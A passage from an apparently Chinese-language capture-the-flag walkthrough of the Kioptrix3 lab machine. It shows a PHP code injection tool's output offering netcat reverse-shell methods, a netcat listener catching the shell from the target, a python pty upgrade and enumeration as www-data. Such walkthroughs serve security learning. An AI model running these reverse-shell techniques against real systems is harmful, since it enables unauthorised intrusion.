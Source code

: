 -   ```shell
    Path found, now to check for vuln....
    
    </html>Hood3dRob1n
    Regex found, site is vulnerable to PHP Code Injection!
    
    About to try and inject reverse shell....
    what IP to use?
    192.168.2.128
    What PORT?
    1234
    
    OK, open your local listener and choose the method for back connect: 
    1) NetCat -e
    2) NetCat /dev/tcp
    3) NetCat Backpipe
    4) NetCat FIFO
    5) Exit
    #? 
    ```

-   主机监听并等待连接。



### 获得初始shell

```shell
❯ sudo nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.2.128] from (UNKNOWN) [192.168.2.145] 44812
whoami
www-data
python -c 'import pty;pty.spawn("/bin/bash")';
www-data@Kioptrix3:/home/www/kioptrix3.com$ clear
clear
TERM environment variable not set.
www-data@Kioptrix3:/home/www/kioptrix3.com$ export TERM=xterm-color
export TERM=xterm-color
www-data@Kioptrix3:/home/www/kioptrix3.com$ whoami
whoami
www-data
www-data@Kioptrix3:/home/www/kioptrix3.com$ echo raw -echo
echo raw -echo
raw -echo
www-data@Kioptrix3:/home/www/kioptrix3.com$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:0c:29:85:99:55 brd ff:ff:ff:ff:ff:ff
    inet 192.168.2.145/24 brd 192.168.2.255 scope global eth1
    inet6 fe80::20c:29ff:fe85:9955/64 scope link 
       valid_lft forever preferred_lft forever
www-data@Kioptrix3:/home/www/kioptrix3.com$   
```
